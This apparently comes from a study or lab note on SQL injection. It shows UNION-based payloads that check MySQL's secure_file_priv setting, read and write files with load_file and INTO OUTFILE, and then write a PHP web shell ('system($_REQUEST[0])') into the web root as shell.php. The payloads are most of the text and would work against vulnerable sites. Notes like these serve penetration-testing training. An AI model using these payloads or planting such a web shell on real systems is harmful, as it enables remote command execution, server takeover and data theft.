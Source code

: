 <figure><img src="../../.gitbook/assets/load_file.png" alt=""><figcaption></figcaption></figure>

### Write file

```sql
cn' union select 1,variable_name,variable_value,4 from information_schema.global_variables where variable_name="secure_file_priv"-- -
```

If `secure_file_priv` is :

* `NULL`, you cannot read/write from any directory.
* `EMPTY`, you can read/write in any location.

If the `secure_file_priv` is `EMPTY`, I can run the next instructions.

```sql
cn' union select 'test1','test2','test3','test4' into outfile '/tmp/test.txt'-- -
cn' union select 1,load_file("/tmp/test.txt"),3,4-- -
```

You have a have acces to your file, and inject shell

```sql
cn' union select 1,"file written successfully!",2,3 into outfile "/var/www/html/proof.txt"-- -
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

## Questions
